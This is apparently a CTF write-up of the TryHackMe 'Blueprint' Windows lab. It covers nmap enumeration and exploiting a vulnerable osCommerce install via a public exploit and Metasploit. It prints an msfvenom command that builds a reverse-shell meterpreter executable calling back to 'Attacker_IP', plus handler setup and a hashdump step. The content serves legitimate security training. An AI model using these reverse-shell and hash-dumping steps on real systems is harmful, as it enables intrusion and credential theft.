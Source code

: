 ```yaml
---
title: "TryHackMe - Blueprint"
author: Nasrallah
description: ""
date: 2022-05-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, windows, metasploit, meterpreter, easy, msfvenom]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Blueprint](https://tryhackme.com/room/blueprint) from [TryHackMe](https://tryhackme.com). It's an easy windows machine running a software program with a version vulnerable to remote code execution.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.230.235                                             
Host is up (0.28s latency).                                                                                                                                   
Not shown: 987 closed tcp ports (reset) 
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods:              
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.           
|_http-server-header: Microsoft-IIS/7.5                                                                                                                       
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                 
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| tls-alpn:                 
|_  http/1.1                                                                   
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47 
|_Not valid after:  2019-11-08T23:48:47 
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| http-methods:                                                                                                                                               
|_  Potentially risky methods: TRACE
49152/tcp open  msrpc        Microsoft Windows RPC                                                                                                            
49153/tcp open  msrpc        Microsoft Windows RPC                                                                                                            
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-05-29T10:06:54
|_  start_date: 2022-05-29T09:57:47
|_clock-skew: mean: -20m02s, deviation: 34m37s, median: -3s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:b2:71:5d:06:29 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-29T11:06:52+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
```

We have a windows machine, running a webserver on port 80 and port 8080, SMB and mysql.

## Web

Let's navigate to the webpage on port 8080.

![](/assets/img/tryhackme/blueprint/1.png)

It's a directory, let's see what it holds.

![](/assets/img/tryhackme/blueprint/2.png)

We see oscommerce with what we assume to be a version number. Let's search for **oscommerce** and see what we can find.

![](/assets/img/tryhackme/blueprint/3.png)

OsCommerce is an online store management software program, and it is vulnerable to remote code execution in this exact version this machine is running.


# **Foothold**

Let's download the exploit and run it.

![](/assets/img/tryhackme/blueprint/4.png)

Great! We got command execution and with elevated privileges.

If we opened up metasploit, we can see that it also has a module for exploiting this service and even getting a reverse shell.

![](/assets/img/tryhackme/blueprint/5.png)

Let's set the necessary parameters up and run the module.

![](/assets/img/tryhackme/blueprint/6.png)

Now let's dump the hashes.

![](/assets/img/tryhackme/blueprint/7.png)

We can't do that because the current meterpreter we're using (php/meterpreter) is not supported. Let's upgrade to **windows/meterpreter*.


# **Shell Stabilization**

First, we need to create an executable using msfvenom with this command.`msfvenom -p windows/meterpreter/reverse_tcp LHOST=Attacker_IP LPORT=1234 -f exe -o shell.exe`

![](/assets/img/tryhackme/blueprint/8.png)

Great. Now we need to setup a listener on metasploit. We use **exploit/multi/handler** for that, and set the options LPORT, LHOST and payload. After that we run the module in the background with `run -j`.
>Press `ctrl + z` to background meterpreter and then select the handler.

![](/assets/img/tryhackme/blueprint/9.png)

Great! Now let's get back to our meterpreter session, and upload the executable.

> You need to start metasploit from the same directory where we created the executable, or specify the full path of the executable:(/path/to/the/executable.exe)

![](/assets/img/tryhackme/blueprint/10.png)

We uploaded the file successfully, now let's run it with the command `execute -f shell.exe`.

![](/assets/img/tryhackme/blueprint/11.png)

Great! We got our session. Now background the old meterpreter session with `ctrl + z` and select the new one, in my case it's session 10: `sessions -i 10`.

Now we can run `hashdump` and get local users hashes.

![](/assets/img/tryhackme/blueprint/12.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
